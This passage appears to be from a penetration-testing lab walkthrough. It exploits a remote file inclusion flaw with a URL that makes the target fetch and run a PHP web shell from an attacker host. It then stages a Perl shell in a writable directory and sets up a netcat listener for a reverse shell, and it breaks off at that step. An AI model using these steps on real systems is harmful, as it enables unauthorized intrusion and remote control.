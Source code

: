 Ok, so far so good. Next, I will

1\. get the header.inc.php to execute and give me a nice web shell gui

2\. use the gui to download the corelanshell.pl file

3\. execute the perl script and get myself a reverse shell

**Step 1 :**

[http://192.168.6.66/1/slogin\_lib.inc.php?slogin\_path=http://192.168.6.70/](http://192.168.6.66/1/slogin_lib.inc.php?slogin_path=http://192.168.6.70/)

=\> This will basically grab the php shell from 192.168.6.70 (in the webroot, header.inc.php) and execute it

[![image](:/85c741b6c9d94460b1d94b91e9e89a35 "image")](https://www.corelan.be/wp-content/uploads/2010/05/image99.png)

Using the “find all writeable dirs and files” option, I gathered a list of writeable folders :

```
  2693    4 -rw-rw-rw-   1 root     root          163 May  4 15:52 /var/run/motd
   840    0 lrwxrwxrwx   1 root     root            5 May  4 02:26 /var/tmp -> /tmp/
  2696    0 drwxrwxrwt   4 root     root           80 May  4 15:52 /var/lock
 35652    0 lrwxrwxrwx   1 root     root           18 Apr 29 21:25 /var/lib/python-support -> /usr/lib/pymodules
  5339    0 lrwxrwxrwx   1 root     root            7 Apr 29 21:18 /var/spool/mail -> ../mail
 49222    4 drw-rw-rw-   2 root     root         4096 May  4 06:55 /opt/data
    15    0 lrwxrwxrwx   1 root     root            7 Apr 29 21:18 /media/floppy -> floppy0
    13    0 lrwxrwxrwx   1 root     root            6 Apr 29 21:18 /media/cdrom -> cdrom0
 16655    0 lrwxrwxrwx   1 root     root           37 Apr 29 21:19 /initrd.img -> boot/initrd.img-2.6.31-14-generic-pae
 36865    1 drwxrwxrwt   2 root     root         1024 May  4 05:43 /tmp/.X11-unix
 24577    1 drwxrwxrwt   2 root     root         1024 May  4 05:43 /tmp/.ICE-unix
4026531841    0 lrwxrwxrwx   1 root     root            8 May  4 16:01 /proc/net -> self/net
4026531840    0 lrwxrwxrwx   1 root     root           11 May  4 16:01 /proc/mounts -> self/mounts
```

/var/lock might be a good target to place my files.

**Step 2 :**

Went to the /var/lock folder and downloaded the corelanshell.pl file from the webserver at 192.168.6.70 :

[![image](:/c086543167464893b3f4557f5bd03f17 "image")](https://www.corelan.be/wp-content/uploads/2010/05/image25.png)

=>

[![image](:/50f06a96398145d0ab6a6039c491e0f2 "image")](https://www.corelan.be/wp-content/uploads/2010/05/image26.png)

**Step 3 :**

First, set up a netcat listener on my “attacker” machine :

```
nc -lvp 4455
```
